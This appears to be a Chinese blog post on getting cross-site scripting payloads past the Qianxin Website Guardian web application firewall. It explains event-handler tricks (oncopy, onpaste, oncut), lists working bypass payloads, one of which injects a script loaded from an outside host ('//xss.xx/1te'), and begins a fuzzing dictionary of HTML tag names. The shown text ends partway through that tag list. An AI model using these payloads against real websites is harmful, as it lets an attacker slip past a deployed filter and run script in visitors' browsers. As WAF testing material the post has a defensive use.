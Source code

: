 ### 介绍
- - -
奇安信网站卫士是奇安信旗下为网站提供免费加速和防护的云服务平台。为站长免费提供了网站加速,智能高防DNS,防DDOS,防CC,防黑客和网站永久在线等服务，是百万站长的共同...

### 前言
- - -
本来不认识奇安信网站卫士的，那天chabug群，有位师傅发了张图，他去云锁官网测试SQL绕过，结果发现云锁官网用了`qianxin-waf`
![3.jpg](https://ae01.alicdn.com/kf/H68e5c883f9dc410daf4169a869d192f6Y.jpg)

![1.png](https://ae01.alicdn.com/kf/Hae1a6b931c164611ac860e308dd5e44dQ.png)

## 测试
- - -
既然来了测试下，先从容易满足的点出发，我就假设有个参数`?xss=`后面不用考虑闭合之类的，毕竟实战遇到的点各有不同。

首先来看个鸡肋而有趣的例子在推特看到的，作者`@sOmd3v @Ow4ys`

`<x oncopy=y=prompt,y``>z` `<x onpaste=y=prompt,y``>z`

![4.png](https://ae01.alicdn.com/kf/Ua6a276b50d5040e586d9438d7fb2dfc3v.png)

`oncopy 事件`在用户拷贝元素上的内容时触发(反引号可以替换为括号)，所以触发的方法是按下 `CTRL + C`

`onpaste 事件`在用户向元素中粘贴文本时触发，所以触发的方法是按下 `CTRL + V`

![5.png](https://ae01.alicdn.com/kf/Uf33f53f157c444b694f9eae7bedc5bd5Q.png)

再来看一个`<x oncut=y=prompt,y``>z`这个例子触发是`CTRL + X`以上3个例子就是`复制粘贴剪切` ━━∑(￣□￣*|||━━

比较实用的`onmouseover事件`被拦截了，还有onmousedown，onmouseup(这两个需点击字符z)...等on事件感兴趣可以自己查看手册测试

![7.png](https://ae01.alicdn.com/kf/Uafa9f3e5e9654b3cb61d886f8c70b7afU.png)

## 更多payload
- - -
说实话，我在测这个waf时，过程很顺利，可能是我测过几个waf的原因，感觉对xss检测不是很严，可能是我测试的环境`太乐观了`，毕竟实战各种`鸡肋环境`，但是我发现对于HTML5新出的几个标签属性还是没过滤的，还有少数waf，on事件没过滤全，可能有些on事件属于比较鸡肋的原因。

Bypass payload:
```
<details open ontoggle=[1].find(alert)>
<select autofocus onfocus=[2].find(alert)>
<input autofocus onfocus=s=createElement("scriPt");body.appendChild(s);s.src="//xss.xx/1te">
```

## fuzz字典
- - -
为什么我很快能得到Bypass payload呢，因为我自己有收集和构造属于自己的字典，下面我大概讲解下自己的思路。

![10.png](https://ae01.alicdn.com/kf/Uf92464d4ceaa45c4b0d53711abdc76efp.png)
(一个xss的基本结构，)

#### [TAG]标签
- - -
```
a
abbr
acronym
address
applet
area
article
aside
audio
b
base
basefont
bdi
bdo
big
blockquote
body
br
button
canvas
caption
center
cite
code
col
colgroup
command
datalist
dd
del
details
dfn
dialog
dir
div
dl
dt
em
embed
fieldset
figcaption
figure
font
footer
form
frame
frameset
h1 to h6
head
header
hr
html
i
iframe
img
input
ins
kbd
keygen
label
legend
li
link
map
mark
menu
meta
meter
nav
noframes
noscript
object
ol
optgroup
option
output
p
param
pre
progress
q
rp
rt
ruby
s
samp
script
section
select
small
source
span
strike
strong
style
sub
summary
sup
table
tbody
td
textarea
tfoot
th
thead
time
title
tr
track
tt
u
ul
var
video
wbr
```
